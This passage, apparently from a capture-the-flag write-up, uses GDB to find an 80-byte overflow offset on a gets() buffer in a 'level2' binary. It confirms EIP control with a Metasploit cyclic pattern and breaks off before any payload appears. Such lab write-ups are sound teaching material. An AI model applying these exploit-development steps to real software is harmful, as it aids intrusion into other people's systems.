 * The location of the vulnerable buffer
* The offset required to reach the return address
* The effect of the return address filtering logic
* The location of the duplicated buffer on the heap

---

### 1. Breakpoint before `gets()`

We begin by setting a breakpoint just before the call to `gets()`:

```gdb
$ gdb ./level2
(gdb) break *0x080484ed  # call to gets()
(gdb) run
```

Once the breakpoint is hit, we are paused before user input is read:

```gdb
Breakpoint 1, 0x080484ed in p ()
```

---

### 2. Finding the Overflow Offset

We need to determine how many bytes are required to overwrite the return address.

#### Manual approach using GDB

From our disassembly, we know the buffer starts at `[ebp-0x4c]` and the saved return address is at `[ebp+4]`. We compute the distance:

```gdb
(gdb) print ($ebp + 4) - ($ebp - 0x4c)
$1 = 80
```

This gives us an exact value: **80 bytes** are required to overflow up to EIP.

**Pattern-based approach (Metasploit)**

We can also use Metasploit’s tools to find the offset automatically:

```bash
$ msf-pattern_create -l
100Aa0Aa1Aa2Aa3...
```

Inject the pattern into the binary:

```gdb
(gdb) run
Aa0Aa1Aa2Aa3...
Program received signal SIGSEGV
(gdb) info registers eip
EIP: 0x37634136
```
